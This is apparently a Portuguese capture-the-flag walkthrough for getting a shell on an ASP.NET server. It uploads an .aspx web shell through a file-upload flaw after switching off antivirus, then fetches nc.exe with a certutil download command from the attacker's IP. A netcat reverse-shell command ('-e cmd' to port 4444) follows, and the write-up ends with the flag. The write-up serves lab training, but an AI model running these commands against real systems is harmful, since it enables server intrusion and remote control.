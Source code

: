 
# Depois de levantar informações específicas como o lugar onde tem uma falha para upar arquivos e deletar, o lugar onde esses arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo: tudo favorável para subir o shell.

## Contexto para subir o shell:
Sabendo que a tecnologia do site é ASP.NET, podemos procurar um Shell que seja `.ASPNET.aspx`, upar no servidor e acessar ele para injetar comandos.

1️⃣ - Procurar no Google o Shell: `github: shell for ASP.aspx`  
2️⃣ - Desligar o antivírus do computador.  
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)

3️⃣ - Salvar esse shell no arquivo `.aspx`.  
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)

💻 Com ele em mãos, é só subir no servidor e acessar.

Acessando o local que descobrimos no DIRSEARCH que é o `magnam` (faz o trabalho do banco de dados).  
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)

⬆️ Upando arquivo:  
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)

✅ Arquivo UPADO, só acessar agora:  
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)

🔎 Acessando o arquivo:  
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)

⚠️ `shell.aspx` subiu, porém você ainda não tem controle total para navegar nos diretórios e fazer uma enumeração de arquivos.

💡 Próximo passo:  
- Baixar o `nc.exe`.
- Colocar em uma pasta no seu próprio Windows.
- Instalar o Python.
- Colocar o arquivo `nc.exe` lá dentro.
- Iniciar o servidor Python com o `nc.exe` disponível para download.  
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)

📂 Coloquei em uma pasta com o nome "Nova Pasta" e iniciei o servidor Python pelo CMD do Windows.  
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)

📥 Agora para baixar usando o shell que subi, use o comando:

```
certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

O Certutil serve para baixar arquivos no Windows. Como está em um servidor HTTP,
basta informar o IP do seu PC e o nome do arquivo para ele salvar no `users/public`
com o nome `nc.exe`.
```

✅ Depois de rodar o comando, o sistema vai confirmar que deu sucesso:  
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)

📁 Agora é só verificar se ele realmente foi baixado na pasta pública:  
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)

🔊 Arquivo upado, precisamos acessar a shell do nosso Windows. Coloque o `nc` para escutar na porta `4444`:  
![image](https://github.com/user-attachments/assets/a5debaf5-4d6b-424a-aa99-a6b3c91a7d13)

⚡ Porta escutando, basta executar o comando:

```
c:\users\public\nc.exe 192.168.100.168 4444 -e cmd

Esse comando executa o `nc.exe`,
passando o IP e a porta para conectar e o `-e` para executar o `cmd` do Windows.
```

📡 Após executar o comando, a porta que está escutando recebe o `cmd`:  
![image](https://github.com/user-attachments/assets/c7eeac35-cce7-4d21-9c70-6cfaa5b68f9b)

💻 Agora é só fazer a enumeração de arquivos e encontrar a flag do arquivo sensível:  
![image](https://github.com/user-attachments/assets/e768c7eb-f61c-4241-8d7e-e2997555c53c)

📦 Arquivo sensível encontrado:  
![image](https://github.com/user-attachments/assets/12899b1c-0cff-4350-b986-3f8b8d5d0c39)

🏁 FLAG encontrada:  
![image](https://github.com/user-attachments/assets/822f7405-3985-4a8a-80b7-05fbe0a33b31)

